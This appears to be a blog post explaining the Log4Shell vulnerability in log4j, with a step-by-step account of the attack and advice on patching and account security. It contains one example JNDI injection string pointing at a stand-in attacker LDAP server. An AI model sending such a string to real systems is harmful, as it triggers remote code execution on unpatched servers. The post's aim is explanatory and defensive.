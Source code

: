 ```yaml
---
title: "Log4shell Vulnerability"
categories:
  - General
---
```


WHEW, it certainly has been one hell of a year for cyber security, and it's only getting more intense. You may have heard of the recent vulnerability dubbed CVE-2021-44228, or better known as Log4shell. It has all cyber security professionals, hackers and businesses around the world very worried (or excited depending on where you stand on the issue). So what is Log4shell? Should you personally be worried about it? In this article I'll attempt to explain what it is and why this is such a big deal. Enjoy!

### What the hell is Log4shell?

Well first to understand what Log4shell is, we need to understand what underlying mechanism is being exploited. Let's start with **log4j**.

Log4j is a java library developed by Apache that is used to help log data. This logging mechanism allows for errors, authentication failures, user input, etc. to be logged into a format where they can be reviewed later for whatever reason. If you're a web application developer, this can be very useful. Log4j is also **open source**, which means that the code is available to be viewed, used and changed as needed by the requirements of the user. Java (code and framework) is one of the most commonly used technologies in the world. It runs on (but not limited to) webservers, mobile devices and even cars. There are hundreds of millions of devices that rely on Java, as well as log4j, so the number of potentially vulnerable devices are quite high. 

Log4shell is the vulnerability for log4j that takes advantage of its lookup functionality and improper input validation. You can think of lookups in this context for log4j as a way to interpolate input upon logging a message. The JNDI (Java Naming and Directory Interface) is the specific lookup available in log4j that has the capability to connect to resources remotely. An attacker can craft a special string that has the JNDI lookup make a request to a server that is under the attacker's control and then execute code remotely. Sound confusing? Well, it is. However, the practicality to exploit this vulnerability is very simple. Let's take a look at the attack in a bit more depth in the next section.

### Log4shell Example

![log4shell]({{ site.url }}{{ site.baseurl }}/assets/images/log4j_attack.png)

The picture above shows a full example of how this vulnerability can be exploited by an attacker. Let's break this down:

1. The attacker crafts a malicious string that utilizes a JNDI lookup. The method for injecting this string can vary, but in this case, the attacker passed it in the User Agent. The string ${jndi:ldap://evil.xa/x} tells the JNDI to connect to the attacker's evil LDAP server.

2. The string is passed to log4j for logging purposes.

3. Log4j takes the string, interpolates it and then queries the attacker's LDAP server. Remember, there is no input validation that is checking to see what is being passed. This means that log4j is happy to log any input it sees and query accordingly. 

4. The attacker's LDAP server responds to the query by giving the directory information that contains the malicious code.

5. The malicious code is then executed after being downloaded.

As we can see, this attack is quite simple yet very effective. There are many variations that an attacker can use to pass the string. The code executed could be setting up a reverse shell that allows the attacker to remotely control the target machine. The possibilities from there are endless.

### Conclusion 

This vulnerability is bad...

This is probably one of the biggest vulnerabilities that has been discovered in recent history. I liken this to the Heartbleed vulnerability that affected OpenSSL years ago. Although they are different vulnerabilities entirely, there were similar circumstances surrounding them both; Both technologies where the code lived in were open source, and both were exploited as a **zero day attack**. Zero days are exploits that have not been caught, detected or mitigated (via a patch for example). Attackers are able to utilize zero days as long as there is nothing stopping them from exploiting it. Usually once a zero day has been brought to the attention of the developers and the general public, patches will be made for it, so timing is a very important factor in using these exploits.

The challenge with log4j, which makes it different that other vulnerabilities, is that java runs on a myriad of devices, which means log4j ultimately does as well. This makes patch management for log4shell very difficult. Identifying which devices are A) critical systems and B) vulnerable can be a difficult process. Companies right now are scrambling to patch all systems that they know of that contain the vulnerability. Cyber security experts are predicting that the effects of this vulnerability have not fully been realized. It is quite possible that the really good hackers have been able to use this exploit to get into a network, establish persistence and then "go dark". They may be biding their time in order to figure out how to move laterally around the network and perform whatever malicious deed they want.

I think that what we're going to see in the future is an influx of supply chain attacks. Remember, while large companies like Apple or Google are actively patching and remediating devices, it doesn't mean their vendors are doing the same thing. As a matter of fact, larger companies can't force their vendors to patch devices or adhere to certain standards for cyber security. This creates a potential "in" for hackers as they can potentially compromise a vendor and then work to get into the main company's network.  

For all of us and our personal cyber security, it's hard to tell right now how you can be affected. We definitely have devices or technologies that run java and log4j, but that doesn't necessarily mean those devices are "easy" to perform this exploit on. An internet facing webserver is going to be easier to exploit than a Tesla for example (hopefully). However, you should definitely take inventory of devices you own and update them with the latest patches if available. Also, please make sure that any accounts you may have with any major institutions are secured with two factor authentication and strong passwords, as there's no telling if hackers have compromised these sites and will attempt to steal credentials. 

Thank you for reading!









